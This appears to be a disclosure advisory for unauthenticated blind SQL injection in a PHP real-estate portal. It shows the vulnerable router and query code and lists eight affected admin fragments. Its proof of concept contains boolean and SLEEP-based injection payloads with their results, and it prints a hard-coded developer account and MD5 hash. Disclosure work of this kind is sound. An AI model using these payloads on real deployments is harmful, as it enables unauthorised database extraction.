

# SourceCodester Simple Real Estate Portal System in PHP/OOP 1.0 /index.php?p=admin/agents/manage_agent&id= SQL injection (Unauthenticated)

## Author

- qwer1230011108

# NAME OF AFFECTED PRODUCT(S)

- Simple Real Estate Portal System in PHP/OOP

## Vendor Homepage

- https://www.sourcecodester.com/php/15184/simple-real-estate-portal-system-phpoop-free-source-code.html

## Vulnerable File

- /index.php (router, no authentication) -> admin/agents/manage_agent.php:3 (+7 sibling fragments)

## VERSION(S)

- 1.0 (current public download, 2026-11)

# PROBLEM TYPE

## Vulnerability Type

- SQL Injection (Unauthenticated, boolean-based and time-based blind) — CWE-89

## Root Cause

The root `index.php` implements a `?p=` page router with **no authentication check**:

```php
// index.php:14-24
$page = isset($_GET['p']) ? $_GET['p'] : 'home';
if(is_dir($page)) include $page.'/index.php';
else include $page.'.php';
```

Any visitor can route to administrative fragments, which receive the already-connected `$conn` and interpolate `$_GET['id']` directly into quoted SQL:

```php
// admin/agents/manage_agent.php:3
$agent = $conn->query("SELECT * FROM agent_list where id ='{$_GET['id']}'");
```

The same pattern exists in `admin/amenities/manage_amenity.php:5`, `admin/types/manage_type.php:5`, `admin/types/view_type.php:5`, `admin/real_estate/view_estate.php:3`, `reps/view_estate.php:3`, `agent/real_estate/manage_estate.php:3`, `agent/real_estate/view_estate.php:3`.

## Impact

Unauthenticated attackers extract the full database (agent records incl. credential hashes, estate listings, inquiries) via boolean/time-based blind injection, and every administrative fragment becomes reachable without a session (combined with the `?p=` include traversal reported separately).

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

Local instance: `http://127.0.0.1:8159/` (no cookies sent, requests to 127.0.0.1 only)

```
[baseline]  GET /index.php?p=admin/agents/manage_agent&id=1
            -> 200, agent edit form rendered, NO login redirect (21007 bytes)

[BOOLEAN]   id=1' AND '1'='1   -> 21007 bytes (TRUE)
            id=1' AND '1'='2   -> 21116 bytes (FALSE)     oracle works

[TIME]      id=1' AND SLEEP(5)-- -  -> 5.05s elapsed

[fragment spread] same pattern in 8 manage_/view_ fragments across admin/, agent/, and public views
```

Full transcript: `poc/F1F3-poc.txt` (reproduce: `python -I scripts/_reps_poc.py`).

## Screenshots

Unauthenticated admin fragment through the public router (no session):



PoC run output (baseline / boolean pair / SLEEP timing / traversal):


# Suggested repair

1. **Use prepared statements and parameter binding** for every `$_GET['id']` lookup (mysqli prepare + bind_param).
2. **Authenticate the router**: `?p=` must resolve only whitelisted public pages; administrative fragments must be reachable solely through the authenticated admin bootstrap.
3. **Minimize database user permissions** and remove the hard-coded developer account (see initialize.php:2, `dev_oretnom` / MD5 `5da283a2d990e8d8512cf967df5bc0d0`).
4. **Regular security audits** of the shared PHP/OOP template family this product is built from.
